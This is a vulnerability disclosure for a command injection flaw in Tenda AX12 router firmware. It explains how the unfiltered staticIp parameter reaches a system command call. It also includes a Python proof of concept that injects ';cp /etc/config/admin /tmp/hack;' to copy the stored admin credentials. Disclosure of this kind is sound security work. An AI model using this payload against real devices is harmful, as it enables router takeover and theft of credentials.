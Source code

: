 ## Vulnerability description ##

Equipment: Tenda-AX12

Firmware version: V22.03.01.16_CN([AX12 upgrade software_Tenda official website](https://www.tenda.com.cn/download/detail-3170.html))

Vulnerability Type: Command Injection

Attack effect: execute any command

## Vulnerability description ##

The reason for this vulnerability is that in the provided fast_setting_internet_set interface, the called function sub_42581C does not filter the value of the controllable parameter staticIp passed in by the user, resulting in command injection.

sub_42581C()
![](D:\learning record\学术报告\路由器\Tenda\AX12\2\image\1.png)

It first obtains the value of the staticIp parameter and assigns it to v4, then calls the sprintf function to format the input to the v5 string, and finally calls doSystemCmd_route to execute the command. In the process, no character filtering is performed on the value of staticIp, which means that we can construct any command through this parameter, and finally enter doSystemCmd_route for execution.

## POC ##

The poc injected by the command, in actual situation, needs to be authenticated first.

```python
import requests

url = "http://192.168.112.131/goform/fast_setting_internet_set"
cmds = ";cp /etc/config/admin /tmp/hack;"


payload = {'wanType': '1', 'staticIp': cmds}
r = requests.post(url, data=payload)
print(r.status_code)
print(r.content)
```

The effect of the attack is as follows. The admin file that saves the userpass in the configuration directory is copied to tmp/hack.
![](.\image\2.png)

### Suggest

It is recommended to upgrade the firmware to the latest version, [V22.03.01.21](https://www.tenda.com.cn/download/detail-3237.html).
